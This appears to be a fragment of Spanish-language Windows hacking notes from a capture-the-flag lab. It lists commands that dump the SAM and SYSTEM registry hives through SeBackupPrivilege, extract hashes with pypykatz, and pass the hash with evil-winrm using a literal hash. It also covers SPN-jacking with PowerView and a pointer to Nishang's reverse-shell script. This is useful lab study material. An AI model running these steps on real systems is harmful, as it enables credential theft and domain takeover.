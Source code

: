 Ejemplo 2, explotacion del privilegio SeBackupPrivilege
```s
mkdir Temp
reg save hklm\sam c:\Temp\sam
reg save hklm\system c:\Temp\system

download sam
download system
#Usaremos pypykatz para obtener el valor del hash del admin

pypykatz registry --sam sam system
#Con esto ya podemos iniciar una sesion de evil-winrm
evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```

Ejemplo 3, explotacion de RSA_4810
Para detectarlo usaremos:  <a href="https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1?source=post_page-----ecbaec77e161--------------------------------">PowerView</a>

```s
. ./PowerView.ps1

Find-InterestingDomainAcl -ResolveGUIDs | ?{$_.IdentityReferenceName -match "nu_1055"}
```
![Vulnerabilidad de grupo RSA_4810](/assets/images/Hacking-Windows/vul.png)

Para explotarlo usaremos SPN-Jacking attack
```s
Set-DomainObject -Identity RSA_4810 -SET @{serviceprincipalname='test/tester'}
Get-DomainSPNTicket -SPN test/tester
```
Obtendremos el TGS ticket y ahora podemos usar john para hacer una fuerza bruta del ticket.

Parte de la enumeracion, tenemos el comando
```s
cmdkey /list
```
Aqui en la enumeracion podemos ver que las credenciales de Administrador estan guardadas para ejecutar runas por ejemplo, maquina Access para mas info. Donde se clonara el proyecto Nishang/Shells/Invoke-PowershellTcp.ps1.
